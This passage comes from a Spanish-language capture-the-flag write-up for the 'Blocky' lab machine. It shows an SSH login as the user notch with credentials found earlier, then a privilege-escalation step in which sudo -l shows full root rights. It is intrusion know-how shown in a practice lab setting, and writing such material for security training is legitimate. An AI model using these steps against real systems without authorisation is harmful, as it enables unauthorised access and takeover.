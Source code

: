 ![](/assets/img/Blocky/image_3.png)

Nos conectamos por `SSH` usando las credenciales encontradas

```
# ssh notch@10.129.144.91
notch@10.129.144.91's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ 
```
## Privilege Escalation

Estamos en el grupo `sudo` así que podemos `ejecutar` cualquier `comando` como `root`

```
# notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
